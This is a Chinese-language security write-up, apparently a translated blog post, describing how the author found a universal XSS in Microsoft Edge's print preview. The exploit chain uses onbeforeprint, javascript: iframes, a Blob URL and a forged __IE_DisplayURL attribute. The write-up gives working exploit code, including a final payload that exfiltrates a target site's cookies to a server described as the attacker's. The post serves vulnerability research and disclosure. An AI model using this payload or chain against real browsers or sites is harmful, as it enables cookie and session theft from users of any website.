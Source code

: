 ### Edge浏览器中的Universal XSS
在各类XSS漏洞中，uXSS可以说是一种非常特殊的类别，它和浏览器或浏览器的插件有关，和具体网站无关。这就像你在所有的网站上都有一个非常有趣的XSS（某个浏览器下）。

在这篇文章中我将讲述在Edge浏览器中发现的这个uXSS。通常来说，uXSS与iframe元素或者URL有关，我从没想过我会通过print()函数找到一个uXSS。

### 打印预览
先让我们讨论一下当Edge浏览器显示打印预览窗口时发生的事情。

我一直以为这只是一个屏幕截图再复制到画布上的技术，但实际上，你正在打印的网页会复制到一个临时位置，并重新渲染！

是的，Edge正在临时目录中创建一个文件，文件内容是我们试图打印页面的小改版本。让我们来对比一下。

原始页面：
```
<!doctype html>
<html>
<head>
    <title>Printer Button</title>
</head>
<body>
<button id="qbutt">Print!</button>
<iframe src="https://www.bing.com/?q=example"></iframe>
<script>
qbutt.onclick=e=>{
    window.print();
}
</script>
</body>
</html>
```

临时页面：
```
<!DOCTYPE HTML>
<!DOCTYPE html PUBLIC "" ""><HTML __IE_DisplayURL="http://q.leucosite.com:777/printExample.html"><HEAD><meta 
content="text/html; charset=utf-8" http-equiv=Content-Type>
<base HREF="http://q.leucosite.com:777/printExample.html">
<STYLE> HTML { font-family : "Times New Roman" } </STYLE><TITLE>Printer 
Button</TITLE></HEAD><BODY><BUTTON id="qbutt">Print!</BUTTON> <iframe src="file://C:\Users\Q\AppData\Local\Packages\microsoft.microsoftedge_8wekyb3d8bbwe\AC\#!001\Temp\3P9TBP2L.htm"></iframe> 
<script>
qbutt.on click=e=&gt;{
    window.print();
}
</script>
</BODY></HTML>
```

从以上两个页面中我们可以发现一些不同。
```
1) Js语句会被实体编码，无法渲染。
2) IFRAME会指向一个本地文件，该文件包含原始引用页面bing.com的源代码。
3) HTML元素现在有一个特殊的属性__IE_DisplayURL
```

我做了一些关于第1点和第2点的测试，试图找出在编码之后仍然能生效的js语句。但事实证明，来自<script>元素中的任何语句，不管有效无效，都不会执行。

而关于第2点，我能使用CSS的@media print{}函数加上CSS选择器借助iframe的ref值提取出系统用户名。然而，这还不够好。

而这第3点正是本文最有趣的地方，这个属性一看就非常不寻常，我以前从未看过。所以我立刻查找了相关的文章，貌似Masato Kinugawa在这方面有些研究。

在学习了一段时间后，我发现打印预览内容和这个属性紧密相关，它指明了打印文档的来源（来自哪个网站）。这正好符合Edge使用file:来打开文件这一行为。你会注意到此文档（在打印预览中）的所有请求行为与原始网站完全相同。

那么，我们怎么利用这个属性呢？

#### 在打印预览中执行javascript
就像我之前说过的，任何来自script标签的js语句都会被忽略。但如果是来自其他标记呢？我尝试了所有我能想到的语句，并最终有所发现。

由于我们一直在讨论打印功能，所以很自然想到了和打印相关的事件，最后找到了onbeforeprint。利用它，我可以注入一个指向任何网站的iframe，而且Edge不会将其转换为文件。在我注入一个包含javascript:的iframe后，发现js语句成功执行。

测试语句：
```
<!doctype html>
<html>
<head>
    <title>Printer Button</title>
</head>
<body>
<button id="qbutt">Print!</button>
<div id="qcontent"></div>
<script>
qbutt.onclick=e=>{
    window.print();
}

window.onbeforeprint=function(e){
    qcontent.innerHTML=`<iframe src="javascript:if(top.location.protocol=='file:'){document.write('in print preview')}"></iframe>`;

    }
</script>
</body>
</html>
```

打印预览转换后：
```
<!DOCTYPE HTML>
<!DOCTYPE html PUBLIC "" ""><HTML __IE_DisplayURL="http://q.leucosite.com/dl.html"><HEAD><meta 
content="text/html; charset=windows-1252" http-equiv=Content-Type>
<base HREF="http://q.leucosite.com/dl.html">
<STYLE> HTML { font-family : "Times New Roman" } </STYLE><TITLE>Printer 
Button</TITLE></HEAD><BODY><BUTTON id="qbutt">Print!</BUTTON> <div 
id="qcontent"><iframe src="ja vasc ript:if(top.location.protocol=='file:'){document.write('in print preview')}"></iframe></div>
<script>
qbutt.onclick=e=&gt;{
    window.print();
}

window.onbeforeprint=function(e){
    qcontent.innerHTML=`&lt;iframe src="javascript:if(top.location.protocol=='file:'){document.write('in print preview')}"&gt;&lt;/iframe&gt;`;

    }
</script>
</BODY></HTML>
```
但是，成功执行js语句并不意味着我们完成了所有任务。如前所述，由于__IE_DisplayURL属性的存在，任何请求或API都会被视为来自于原始文档（无法攻击外部网站）。

### 真正的uXSS
在能执行js语句后，我们需要以某种方式用自定义的__IE_DisplayURL来构建我们自己的“打印预览文档”，这样我们就能对任意网站发动uXSS攻击。

很快我发现Blob URL可以做到这一点！为此，我制作了特殊的打印文档，其中的自定义属性指向我的目标网站（本例中为“bing.com”），并且它还包含一个javascript iframe，就像在“bing.com”网站中执行一样。

插入的Js语句如下：
```
if (top.location.protocol == 'file:') {
    setTimeout(function() {
        top.location = URL.createobjectURL(new Blob([top.document.getElementById('qd').value], {
            type: 'text/html'
        }))
    }, 1000)
}
```

其中top.document.getElementById('qd').value就是指如下虚假打印文档：
```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN"><HTML 
__IE_DisplayURL="https://www.bing.com/"><HEAD><meta content="text/html; 
charset=windows-1252" http-equiv=Content-Type>
<base HREF="https://www.bing.com/">
<STYLE> HTML { font-family : "Times New Roman" } </STYLE>
<STYLE>iframe {
    width: 300px; height: 300px;
}
</STYLE>
</HEAD><BODY>

<iframe id="qif" src="javascript:qa=top.document.createElement('img');qa.src='http://localhost:8080/?'+escape(btoa(top.document.cookie));top.document.body.appendChild(qa);'just sent the following data to attacker server:<br>'+top.document.cookie">
</BODY></HTML>
```

现在，我可以看到网站cookie，并且已发送到某个服务器上。

现在让我来总结一下整体利用流程:
```
1) 利用onbeforeprint，我插入一个iframe，它能打印之前触发我的js语句。
2) 调用window.print()进行初始化。
3) Edge出现打印预览窗口，内容为我插入的js语句，并进行渲染。
4) 这些js语句会创建了一个Blob URL，其中有我自定义的来自“bing.com”打印文档，并将顶部帧重定向到这个URL。
5) 打印预览内容会误认为我的Blob URL的内容是一个合法的打印文档，并通过__IE_DisplayURL属性将文档来源设置为bing.com。
6) 这个虚假的打印文档现在包含另一个javascript iframe，它会显示bing.com网站的cookie。
7) uXSS成功实现！
```